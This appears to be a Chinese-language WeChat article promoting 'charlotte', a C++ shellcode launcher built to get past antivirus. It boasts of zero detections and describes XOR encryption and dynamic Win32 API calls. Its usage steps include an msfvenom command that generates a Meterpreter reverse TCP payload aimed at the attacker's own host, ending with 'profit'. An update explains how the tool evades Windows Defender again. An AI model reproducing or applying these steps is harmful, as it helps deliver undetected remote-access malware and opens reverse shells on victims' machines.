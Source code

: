 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/YQ84lU6OuJz2KpS0_4teCg)

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV3OWcHe6kEjmyOzhzgjQY75tibd5XtY207iafygpgzmkyNGFZUmGKgjSyW9CxhbhnzJRTrH4ZIFia28g/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV3OWcHe6kEjmyOzhzgjQY759lDxbzTicKMy0ulAziabFhDayIyUenIR2V21kXy069DlibLXXdxcLtKVg/640?wx_fmt=png)

2021 年 5 月 13 日：

1.  c ++ shellcode 启动器，截至 2021 年 5 月 13 日完全未检测到 0/26。
    
2.  动态调用 win32 api 函数
    
3.  Shellcode 和函数名称的 XOR 加密
    
4.  每次运行随机 XOR 键和变量
    
5.  在 Kali Linux 上，只需 “apt-get install mingw-w64 *” 就可以了！
    

2021 年 5 月 17 日：

    1. 随机字符串长度和 XOR 键长度

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV3OWcHe6kEjmyOzhzgjQY75LricnOc7UCR3QlND5wSVhaggJDsdK7oXTrkrxLl76lpctJeswyVqbMg/640?wx_fmt=png)

**用法**  

        git 克隆存储库，使用 beacon.bin 命名生成您的 shellcode 文件，然后运行 charlotte.py

例子：

1.  git clone https://github.com/9emin1/charlotte.git && apt-get install mingw-w64*
    
2.  cd charlotte
    
3.  msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=$YOUR_IP LPORT=$YOUR_PORT -f raw > beacon.bin
    
4.  python charlotte.py
    
5.  profit
    

更新 v1.1
-------

2021/05/21：

显然，Microsoft Windows Defender 能够检测到. DLL 二进制文件，以及他们如何标记它？通过寻找几个 16 字节大小的 XOR 键将其更改为以下 POC .gif 中显示的 9 表示现在再次未被检测到。

项目地址：

https://github.com/9emin1/charlotte